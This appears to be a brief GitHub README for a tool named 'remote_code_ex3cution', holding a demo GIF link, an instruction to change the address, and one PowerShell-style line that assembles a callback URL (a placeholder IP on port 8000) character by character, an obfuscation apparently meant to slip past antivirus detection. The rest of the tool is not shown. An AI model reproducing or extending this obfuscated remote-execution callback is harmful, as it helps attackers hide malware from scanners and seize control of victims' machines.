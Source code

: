 ## remote_code_ex3cution


## DEMO
![DEMOGIF](https://user-images.githubusercontent.com/118774522/220413885-c2254a98-28e4-4fb3-967b-5b3693019456.gif)



! CHANGE ADDRESS

`$U='h'+ 't'+ 't'+ 'p'+':'+ '/'+'/'+ '0'+ '0'+'0'+'.'+'0'+ '0'+'0'+'.'+'0'+'0'+'0'+'.'+'0'+ '0'+ '0'+':'+ '8'+'0'+'0'+ '0'`

by:@ rick porto
